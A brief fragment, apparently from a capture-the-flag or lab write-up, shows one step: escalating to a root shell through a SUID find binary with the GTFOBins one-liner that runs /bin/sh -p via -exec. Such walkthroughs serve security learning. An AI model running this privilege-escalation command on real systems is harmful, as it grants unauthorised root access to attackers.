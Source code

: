 
H. using /usr/bin/find command elevate the privilege (cortsey:GTFOBINS)

```

/usr/bin/find . -exec /bin/sh -p \; -quit

```

got the root shell .


